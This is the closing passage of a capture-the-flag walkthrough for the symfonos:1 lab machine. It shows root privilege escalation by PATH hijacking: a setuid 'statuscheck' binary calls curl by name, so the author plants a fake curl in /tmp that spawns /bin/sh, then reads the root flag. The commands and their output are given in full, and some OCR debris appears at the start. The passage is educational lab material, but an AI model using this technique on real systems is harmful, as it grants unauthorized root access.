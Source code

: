 ```
http://lH
ocalhostH
[SNIP]
```

statuscheck runs curl as root using the system command

```
./statuscheck
HTTP/1.1 200 OK
Date: Fri, 01 Jan 2021 16:13:37 GMT
Server: Apache/2.4.25 (Debian)
Last-Modified: Sat, 29 Jun 2019 00:38:05 GMT
ETag: "148-58c6b9bb3bc5b"
Accept-Ranges: bytes
Content-Length: 328
Vary: Accept-Encoding
Content-Type: text/html
```

*   If we can make another program named curl with a shell then we can get root

*   Create an executable curl in tmp, and put tmp first on the PATH

```
cd /tmp
echo "/bin/sh" > curl
chmod a+x curl
export PATH=/tmp:$PATH
```

When we run statuscheck now it runs our curl script instead of actual curl.

```
/opt/statuscheck
id
uid=1000(helios) gid=1000(helios) euid=0(root) groups=1000(helios),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
```

##### Root Flag:

```
cd /root
ls
proof.txt
cat proof.txt

Congrats on rooting symfonos:1!
[SNIPPED]
```

FIN. 🥳